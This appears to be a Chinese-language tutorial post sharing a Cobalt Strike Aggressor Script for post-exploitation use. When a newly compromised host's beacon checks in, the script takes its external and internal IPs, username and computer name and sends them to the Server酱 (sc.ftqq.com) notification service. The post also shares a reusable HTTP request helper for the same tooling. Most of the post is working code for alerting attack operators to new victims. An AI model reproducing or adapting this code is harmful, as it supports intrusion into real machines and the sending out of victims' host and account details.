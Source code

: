 整体代码流程是，监听上线事件，当有新的主机上线的时候我们就执行代码：

```
#上线事件的监听on beacon_initial {	...... # 代码}
```

然后呢定义一个请求函数

```
sub http_get {        local('$output');        $url = [new java.net.URL: $1]; # 实例化URL请求，$1为待输入的URl        $stream = [$url openStream];        $handle = [SleepUtils getIOHandle: $stream, $null];        @content = readAll($handle);        foreach $line (@content) {            $output .= $line . "\r\n";        }        println($output);    }
```

将刚上线的主机的 外网 IP 内网 IP 用户名 主机信息 提取出来，优化输出

```
#获取ip、计算机名、登录账号    $externalIP = replace(beacon_info($1, "external"), " ", "_");    $internalIP = replace(beacon_info($1, "internal"), " ", "_");    $userName = replace(beacon_info($1, "user"), " ", "_");    $computerName = replace(beacon_info($1, "computer"), " ", "_");
```

最后格式化一下 URL 再请求

```
$url = 'https://sc.ftqq.com/此处填写你Server酱的SCKEY码.send?text=CobaltStrike%e4%b8%8a%e7%ba%bf%e6%8f%90%e9%86%92&desp=%e4%bb%96%e6%9d%a5%e4%ba%86%e3%80%81%e4%bb%96%e6%9d%a5%e4%ba%86%ef%bc%8c%e4%bb%96%e8%84%9a%e8%b8%8f%e7%a5%a5%e4%ba%91%e8%b5%b0%e6%9d%a5%e4%ba%86%e3%80%82%0D%0A%0D%0A%e5%a4%96%e7%bd%91ip:'.$externalIP.'%0D%0A%0D%0A%e5%86%85%e7%bd%91ip:'.$internalIP.'%0D%0A%0D%0A%e7%94%a8%e6%88%b7%e5%90%8d:'.$userName.'%0D%0A%0D%0A%e8%ae%a1%e7%ae%97%e6%9c%ba%e5%90%8d:'.$computerName;    http_get($url);
```

这样就完成了一个 Server 酱 上线提示的操作

这里我分享一个国外师傅打包好的请求方法：

```
## Safe & sound HTTP request implementation for Cobalt Strike 4.0 Aggressor Script.# Works with HTTP & HTTPS, GET/POST/etc. + redirections.## Author: Mariusz B. / mgeeky, '20# <mb [at] binary-offensive.com>#import java.net.URLEncoder;import java.io.BufferedReader;import java.io.DataOutputStream;import java.io.InputStreamReader;import java.net.HttpURLConnection;import java.net.URL;## httpRequest($method, $url, $body);#sub httpRequest {    $method = $1;    $url = $2;    $body = $3;    $n = 0;    if(size(@_) == 4) { $n = $4; }    $bodyLen = strlen($body);    $maxRedirectsAllowed = 10;    if ($n > $maxRedirectsAllowed) {        warn("Exceeded maximum number of redirects: $method $url ");        return "";    }    try    {        $urlobj = [new java.net.URL: $url];        $con = $null;        $con = [$urlobj openConnection];        [$con setRequestMethod: $method];        [$con setInstanceFollowRedirects: true];        [$con setRequestProperty: "Accept", "*/*"];        [$con setRequestProperty: "Cache-Control", "max-age=0"];        [$con setRequestProperty: "Connection", "keep-alive"];        [$con setRequestProperty: "User-Agent", $USER_AGENT];        if($bodyLen > 0) {            [$con setDoOutput: true];            [$con setRequestProperty: "Content-Type", "application/x-www-form-urlencoded"];        }        $outstream = [$con getOutputStream];        if($bodyLen > 0) {            [$outstream write: [$body getBytes]];        }        $inputstream = [$con getInputStream];        $handle = [SleepUtils getIOHandle: $inputstream, $outstream];        $responseCode = [$con getResponseCode];        if(($responseCode >= 301) && ($responseCode <= 304)) {            $loc = [$con getHeaderField: "Location"];            return httpRequest($method, $loc, $body, $n + 1);        }        @content = readAll($handle);        $response = "";        foreach $line (@content) {            $response .= $line . "\r\n";        }        if((strlen($response) > 2) && (right($response, 2) eq "\r\n")) {            $response = substr($response, 0, strlen($response) - 2);        }        return $response;    }    catch $message    {       warn("HTTP Request failed: $method $url : $message ");       printAll(getStackTrace());       return "";    }}
```
